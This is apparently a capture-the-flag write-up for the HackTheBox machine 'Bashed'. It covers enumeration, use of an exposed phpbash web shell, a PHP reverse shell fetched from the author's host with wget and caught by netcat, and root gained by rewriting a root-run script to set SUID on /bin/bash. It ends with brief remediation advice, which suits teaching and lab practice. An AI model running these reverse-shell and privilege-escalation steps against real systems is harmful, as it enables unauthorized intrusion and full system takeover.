 # Bashed

```
kali@kali:~/htb/Bashed$ sudo nmap -sV -sC 10.129.88.188
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-28 10:04 EST
Nmap scan report for 10.129.88.188
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Ok, the webpage leads to a blog about PHPbashing. Nothing really to click, except a blog post.

I decide to run wfuzz:

```
kali@kali:~/htb/Bashed$ sudo wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.88.188/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.88.188/FUZZ
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000000001:   200        161 L    397 W    7743 Ch     "# directory-list-2.3-medium.txt"                                  
000000003:   200        161 L    397 W    7743 Ch     "# Copyright 2007 James Fisher"                                    
000000007:   200        161 L    397 W    7743 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"  
000000014:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"                                            
000000016:   200        19 L     88 W     1566 Ch     "images"                                                           
000000012:   200        161 L    397 W    7743 Ch     "# on atleast 2 different hosts"                                   
000000013:   200        161 L    397 W    7743 Ch     "#"                                                                
000000011:   200        161 L    397 W    7743 Ch     "# Priority ordered case sensative list, where entries were found"
000000010:   200        161 L    397 W    7743 Ch     "#"                                                                
000000008:   200        161 L    397 W    7743 Ch     "# or send a letter to Creative Commons, 171 Second Street,"       
000000005:   200        161 L    397 W    7743 Ch     "# This work is licensed under the Creative Commons"               
000000006:   200        161 L    397 W    7743 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"    
000000002:   200        161 L    397 W    7743 Ch     "#"                                                                
000000009:   200        161 L    397 W    7743 Ch     "# Suite 300, San Francisco, California, 94105, USA."              
000000004:   200        161 L    397 W    7743 Ch     "#"                                                                
000000164:   200        1 L      1 W      14 Ch       "uploads"                                                          
000000338:   200        16 L     59 W     941 Ch      "php"                                                              
000000550:   200        20 L     96 W     1760 Ch     "css"                                                              
000000834:   200        17 L     69 W     1150 Ch     "dev"                                                              
000000953:   200        26 L     165 W    3167 Ch     "js"                                                               
000002771:   200        21 L     111 W    2097 Ch     "fonts"                                                            
000045240:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"

```

/uploads/ is empty, but /php/ contains a directory that shows sendMail.php

Which is completely empty. I try curling, burpsuite. But it is completely empty. So I decide to check out the PHPbash talked about in the blog.

`phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!`

So phpbash is a pentesting tool, developed on this exact server. Well. There is a /dev/ directory here.

![](images/1.png)

So I try out phpbash.php:

```
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

I’ll create a reverse shell, as I know more about the capabilities of the tty than phpbash. I try python, netcat, bash. But at the end I just decide to upload a php reverse shell.

```
kali@kali:~/htb/Bashed$ cp /usr/share/webshells/php/php-reverse-shell.php .
kali@kali:~/htb/Bashed$ sudo vim php-reverse-shell.php
kali@kali:~/htb/Bashed$ sudo python -m SimpleHTTPServer 8000

```

And then on the website:

```
www-data@bashed:/tmp# wget 10.10.14.52:8000/php-reverse-shell.php

--2021-01-28 13:52:51-- http://10.10.14.52:8000/php-reverse-shell.php
Connecting to 10.10.14.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

0K ..... 100% 445M=0s

2021-01-28 13:52:51 (445 MB/s) - 'php-reverse-shell.php' saved [5493/5493]
www-data@bashed:/tmp# php php-reverse-shell.php
```

And of course on the listener:

```
kali@kali:~/htb/Bashed$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.188 34008
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:53:03 up  6:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

I am slightly sad. I’ve had the ip 10.10.14.21 for well over a week. And now suddenly I am 10.10.14.52. And I’ve gotten so used to 21. Anyways. I improve the shell. Read more here: https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/ 

I look around a bit and find a user named scriptmanager, and also a directory called "scripts" owned by scriptmanager.

So I’m gonna try and log in as scriptmanager, and see what permissions that account has.

```
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$
scriptmanager@bashed:/$ whoami
scriptmanager
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
```
Aha, so as scriptmanager we can now enter the scripts directory. I also checked /home/scriptmanager/.bash_history to see if there was anything good, but it was empty. 

Let’s look at this script:

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt ; echo
testing 123!
scriptmanager@bashed:/scripts$
```

So it simply opens a file and writes to it. Let’s check the permissions:

```
scriptmanager@bashed:/scripts$ ls -la 
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 28 14:14 test.txt
```

So the script is owned by scriptmanager, but the file is owned by root. We can also see the time discrepancy between the python file and the text file. 

The text file is actually last edited right now. So the python script is probably being ran constantly.

I edit the file with nano. I normally use vim, but it’s not installed. BTW. If the target machine has vim, you may be able to spawn a root shell with that, look more here: https://gtfobins.github.io/gtfobins/vim/ 

```
import os  

os.system("chmod 4755 /bin/bash")
```

This simply changes the permissions of /bin/bash. 4755 means that everyone can execute it, more here: https://chmodcommand.com/chmod-4755/ 

ctrl+X to exit nano, Y to write, and enter to have the same name.

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

-p means that bash will run in privileged mode.


## Comparing myself to the official writeup:

The official writeup uses the same methods, except it runs another reverse shell from the python program instead of changing the bash permissions. 


## How to stop this exploit:

The web user should not be able to access scripts, especially when you give an end-user access to that user by default with the phpbash dev site. The automatic script execution could also have an additional check. Maybe do a md5sum of the program, and only run it if the md5sum matches.


